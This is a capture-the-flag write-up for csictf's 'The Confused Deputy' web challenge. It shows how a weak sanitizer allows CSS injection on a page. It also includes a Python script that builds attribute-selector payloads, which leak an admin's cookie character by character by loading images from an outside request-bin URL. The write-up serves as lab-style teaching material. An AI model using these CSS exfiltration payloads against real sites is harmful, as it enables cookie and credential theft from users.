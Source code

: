 ## The Confused Deputy

<img src="src/view.png" alt="view" />

We are given a website at http://chall.csivit.com:30256/view with an input field that allows the user to change the background color of the page. The website also sets a cookie called 'password' with default value 'PASSWORD'. In the task description were also told that the admin is interested in viewing our favourite color and that we can send it to him at http://chall.csivit.com:30256/admin. Given the hint in the task description and the cookie it is evident that we need to retrieve the admin's cookie using some form of xss.

view

```
<!DOCTYPE html>
<html lang="en">

<head>
    <style>
        .show {
            display: flex;
            flex-direction: column;
            justify-content: center;
            align-items: center;
            height: 100vh;
            background-image: linear-gradient(#cc2b5e, #753a88);
        }

        #colorize {
            font-size: 2rem;
            border-radius: 0.5rem;
        }

        #submit {
            height: 2.5rem;
            background-image: linear-gradient(#42275a, #734b6d);
            border: 1px solid #734b6d;
            border-radius: 0.5rem;
            color: white;
        }

        input[type="password"] {
            visibility: hidden;
        }
    </style>
</head>

<body class="show">
    <input type="password" onkeyup="this.setAttribute('value', this.value)" />
    <h1 style="color: white;">Color Visualizer</h1>
    <input id="colorize"></input><br>
    <button id="submit" type="button" onclick="dostuff()">Submit</button>
</body>

<script>
    window.onload = () => {
        getCookie();
    };

    function dostuff() {
            const content = document.getElementById('colorize').value;
            const style = `<style> .show {background-image: none; background-color: ${sanitized(content)}}</style>`;
            document.head.innerHTML += (style);
        }

        function sanitized(content) {
            content = content.replace('<', '').replace('>', '');
            return content;
        }

        function getCookie() {
            document.getElementsByTagName('input')[0].setAttribute('value', document.cookie.split('password=')[1]);
        }
</script>

</html>
```
The entered string is embedded in style tags and appended to the head element. What's also noteworthy is that the cookie is embedded in a hidden input element on page load. Because the user input is placed into style tags, xss using regular html tags (probably) isn't possible. After looking for a way to retrieve content from a website using css I found [this](https://medium.com/bugbountywriteup/exfiltration-via-css-injection-4e999f63097d) article which describes how to exfiltrate data from hidden elements using the css sibling selector. If the input tag wasn't hidden, an easier approach also detailed in the article would be possible. The basic idea is to inject several selectors of which only one will find a suitable element and load its background image with an url that we choose. The selectors look as follows:

```
input[type=password][value^={start_of_the_cookie}{next_character}] ~ * { 
    background-image: url("https://hookb.in/nPXO2V2Dw9uaBBGLq1xy?text={next_character}")
}
```

This selector applies to any element that is adjacent to an input element with an attribute 'type' set to 'password' and an attribute 'value' that starts with the string {start_of_the_cookie}+{next_character}. If we inject one of these selectors for each printable character only one background-image will be loaded because only one suitable element will be found.

```
b = "blue} "
f = 'input[type=password][value^=%s] ~ * { background-image: url("https://hookb.in/nPXO2V2Dw9uaBBGLq1xy?text=%s")}\n'
for s in range(128):
    b += f % ("\\00" + hex(s)[2:], s)
print(b)
```

This script prints one of the above selectors for each of the first 128 characters. Its output needs to be sent to the admin.

admin

```
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <meta http-equiv="X-UA-Compatible" content="ie=edge">
    <title>csictf Admin</title>
</head>
<body>
    <h1>csictf Admin</h1>
    <p>The admin would love to see your favourite color! You can send it to him via this form.</p>
    <form action="/admin" method="POST">
        <input name="url" placeholder="Enter a URL for admin to visit."/><br />
        <input name="color" placeholder="Enter a color for admin to see."/><br />
        <input type="submit" />
    </form>

</body>
</html>
```

The admin page only contains a form that allows us select a page for the admin to visit and the color which will presumably be inserted into the input field. After sending the script's output with the page selected as http://chall.csivit.com:30256/view, the request bin received a request which indicated that the first letter of the cookie is a 'c'.
The letter could then be inserted in the script and the above steps could be repeated. There are probably more elegant methods to solve the task, but this worked just fine.

flag: csictf{cssxss}